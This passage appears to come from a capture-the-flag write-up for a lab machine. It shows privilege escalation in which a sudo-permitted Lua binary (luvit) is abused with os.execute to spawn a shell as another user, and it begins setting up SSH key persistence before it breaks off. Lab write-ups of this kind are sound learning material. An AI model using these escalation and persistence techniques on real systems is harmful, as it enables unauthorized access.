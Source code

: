 note.txt appears to be interesting, let’s find out whats in there


    $ cat note.txt
    - sysadmin -
    I have left a tool to practice Lua.
    I'm sure you know where to find it.
    Contact me if you have any question.

Ok so there is something related to lua

Ahhaaa!! found you


    $ sudo -l
    Matching Defaults entries for webadmin on traceback:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User webadmin may run the following commands on traceback:
        (sysadmin) NOPASSWD: /home/sysadmin/luvit

Above information conveys that **webadmin** can run **/home/sysadmin/luvit** with sudo privilege

**References:**

    - https://gtfobins.github.io/gtfobins/lua/
    - https://www.lua.org/manual/5.1/lua.html

What we need to know is “how to execute os command using lua?” 


    lua -e 'os.execute("/bin/sh")'

All set let’s go for escalation


    $ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
    id 
    uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
    whoami
    sysadmin

BOOM!!


----------


### Privilege Escalation toward root.txt:

Working without proper shell is hard, so lets add our public key in .ssh folder of sysadmin and login with that,


    root@kali:~/.ssh# ssh-keygen
    Generating public/private rsa key pair.
    Enter file in which to save the key (/root/.ssh/id_rsa): 
    /root/.ssh/id_rsa already exists.
    Overwrite (y/n)? y
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in /root/.ssh/id_rsa.
    Your public key has been saved in /root/.ssh/id_rsa.pub.
    The key fingerprint is:
    SHA256:ujc3LS4mFE93URYAhZGg4ur8BAYunYfz1d8tRT9Nxe8 root@kali
    The key's randomart image is:
    +---[RSA 3072]----+
    |        ..o*oo+o.|
    |       .  o ..  o|
    |.   . .      .. o|